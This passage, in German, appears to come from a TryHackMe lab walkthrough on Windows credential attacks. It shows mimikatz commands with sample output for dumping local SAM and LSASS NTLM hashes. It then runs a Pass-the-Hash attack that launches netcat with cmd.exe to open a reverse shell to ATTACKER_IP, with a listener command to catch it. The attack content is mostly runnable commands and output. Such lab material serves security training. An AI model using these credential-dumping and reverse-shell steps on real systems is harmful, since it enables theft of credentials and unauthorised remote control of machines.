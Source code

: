 Diese Methode erlaubt uns, nur hashes aus der lokalen Maschine zu extrahieren. Domain User Hashes sind nicht enthalten.

```bash
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
  ```

**Extracting NTLM hashes from LSASS memory**

Mit dieser Methode können wir alle NTLM Hashes extrahieren, lokale als auch domain user Hashes die sich jemals auf dieser Maschine authentifiert haben.

```bash
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

Mit den extrahierten Hashes können wir nun eine Pass-the-Hash Attacke ausführen. Dazu nutzen wir mimikatz, um einen access token des Users zu injezieren, von dem wir den Hash besitzen.

```bash
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

**Achtung: Wir führen token::revert aus um unseren ursprünglichen token mit den entsprechenden Privilegien zu nutzen. Pass-the-Hash funktioniert nicht mit privilege::debug. Das ist ein Equivalent zu runas /neonly aber mit einem Hash anstatt eines Passworts, was uns eine neue Reverse Shell erstellt von der aus wir jeden Befehl auf dem Zielrechner ausführen können.**

Um eine Reverse Shell zu bekommen führen wir folgendes aus:

>nc -lvnp 5555

**Interessanterweise wird uns mit whoami immernoch unserer ursprünglicher User angezeigt, dennoch wird jeder Befehl mit den Credentials des Users ausgeführt, die wir per Pass-the-Hash injeziert haben**
